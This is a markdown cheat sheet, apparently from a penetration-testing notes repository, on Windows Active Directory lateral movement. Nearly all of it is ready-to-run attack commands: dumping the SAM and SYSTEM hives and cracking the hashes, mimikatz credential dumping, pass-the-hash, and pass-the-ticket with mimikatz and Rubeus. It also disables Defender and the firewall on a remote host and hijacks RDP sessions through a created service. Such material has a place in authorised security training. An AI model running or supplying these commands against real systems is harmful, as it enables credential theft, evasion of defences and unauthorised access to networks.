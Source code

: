# Lateral Movement

## Using PowerView

> Don't forget to import the script bypassing powershell execution policy

To test if you have an admin access on the current machine:

 ```powershell
 Test-AdminAccess -Verbose
 ```

To see what srevers you have access to:
 
 
 ```powershell
 Find-DomainUserLocation
 ```

 ```powershell
 Invoke-Command -ComputerName dc -ScriptBlock{whoami /groups; hostname}
 ```
  Using PowerShell Remoting
  
  ```powershell
  Enter-PSSession -ComputerName dc
  ```
  
  ## After Getting Local Admin Access...
  
 
 ### Dumping SAM\SYSTEM files for offline cracking:
 
  > C:\Windows\System32\config\SAM


 > C:\Windows\System32\config\SYSTEM

Copying the files to the current directory:

 ```batch
 reg save HKLM\sam sam
 
 reg save HKLM\system system
 ```
 
 On Kali Linux use the `samdump2` tool:
 
 ```bash
 samdump2 system sam
 ```
 
 Take the hashes and crack them with hashcat:
 
 ```bash
 hashcat -D 2 -m 1000 hashes.txt rockyou.txt -r OneRuleToRuleThemAll.rule
 ```
 
### SAM and LSA w/ mimikatz
 
 ```powershell
 powershell -ep bypass
 
 . .\invoke-mimikatz.ps1
 
 Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords' "lsadump::sam" "exit"'
  ```
Copy the NTLM of the users 😈
 
### Pass the Hash Attack w/ mimikatz


 ```powershell
 powershell -ep bypass
 
 . .\invoke-mimikatz.ps1
 
 Invoke-Mimikatz -Command '"sekurlsa::pth /user:student2 /domain:marvel /ntlm:<NTLM YOU COPIED> /run:powershell.exe"'
  ```
  
Create a session variable and disable defences:
  
  ```powershell
  
  $sess = New-PSSession -ComputerName FILESHARE
  
  Invoke-Command -ScriptBlock{Set-MpPreference -DisableRealTimeMonitoring $true} -session $sess
  
  
  Invoke-Command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -session $sess
  
  
  Invoke-Command -ScriptBlock{netsh advfirewall set allprofiles state off} -session $sess
  
  ``` 
  
  
 ### Pass the Ticket Attack w/ mimikatz
 
 Export all ticket to the current directory
 
 ```powershell 
 powershell -ep bypass
 
 . .\invoke-mimikatz.ps1
 
 invoke-mimikatz -command '"Mimikatz::debug" "sekurlsa::tickets /export" "exit"'

 invoke-mimikatz -command '"Mimikatz::debug" "kerberos::ptt <TICKET FILE NAME>"  "exit"'
 
  ```
  
  Check cached tickets: 
  
  `klist`
  
  ### Pass the Ticket Attack w/ Rubeus
 
 List all the tickets:
 
  ```powershell 
 .\Rubeus.exe klist
 ```
 
 Get more information about the tickets:
 
 ```powershell
 .\Rubeus.exe triage
 ```
 
 Dump the tickets:
 
```powershell
 .\Rubeus.exe dump
```

```powershell
 .\Rubeus.exe ptt /ticket:<BASE64 TICKET>
```

### Session Hijacking

Query users (to see who is disconnected)

```powershell
query user
```

```powershell
sc create sesshijack bipath="cmd.exe /k tscon <ID> /dest::rdp-tcp#<ID>"

net start sesshijack
```

